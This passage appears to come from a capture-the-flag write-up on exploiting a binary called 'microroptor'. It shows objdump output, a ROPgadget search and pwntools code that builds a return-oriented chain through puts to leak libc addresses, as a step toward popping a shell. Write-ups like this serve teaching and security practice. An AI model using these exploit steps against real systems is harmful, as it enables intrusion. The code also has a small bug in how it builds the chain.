 * a function or a syscall to pop a shell

We ain't got anyone in our binary, but they are both in the GLIBC that the binary use to call some basics functions.
Unfortunately, we don't have the libc file wich whose binary were built with.
So we need to leak some pointer to function in order to discover the libc version (Using https://libc.blukat.me/).

To leak some of theses addresses, we first need to know wich one our binary use during his execution:
```
objdump -R microroptor
...
0000000000003fb8 R_X86_64_JUMP_SLOT strncmp
0000000000003fc0 R_X86_64_JUMP_SLOT puts
0000000000003fc8 R_X86_64_JUMP_SLOT printf
0000000000003fd0 R_X86_64_JUMP_SLOT read
```
So we've got 4 candidates: strncmp, puts, printf, read
We need those functions addresses in the PLT ("Procedure Linkage Table", check if a function exist and where is it in the GOT) and the GOT ("Global Offset Table", where is the function address).
We can get it easily with pwntools:
```python
elf = context.binary = ELF(BIN_NAME)

elf.plt["function name"] + base
elf.got["function name"] + base
```
Don't forget to add the binary base address to get the right address.

We also need some gadget (little piece of assembly code present in the binary) to create our rop chain. We only need 1 for this part : `pop rdi; ret`, this gadget allow us to control what will be stored in RDI, registry in x86 who store 1st argument of a function.
```
ROPgadget --binary microroptor | grep "pop rdi ; ret"
0x000000000000116f : pop rdi ; ret
```

And we can use puts to print the address, we need to build a stack frame like that:
```
-------------
| A * 40     |
-------------
| POP_RDI    | <- To store into RDI 
--------------
| FUNC@GOT   |  <- To be stored in RDI (function to leak)
--------------
| PUTS@PLT   | <- Will be stored into RIP after the ret of the gadget
--------------
| MAIN       | <- Will be stored into RIP after the ret of puts
--------------
```
So we've got our first ROPchain like that:
rop1 = `A*OFFSET + POP_RDI + FUNC_GOT + PUTS_PLT + MAIN`
```python
fun_addr = base+elf.got[fun]
rop1 = [
POP_RDI, fun_addr,
puts_plt,
main
]
rop1 = b"A"*OFFSET
rop1 += ''.join([p64(r) for r in rop1])
io.sendline(rop1)
io.recvline()
leak_libc = io.recvline().strip().ljust(8,b'\x00')
```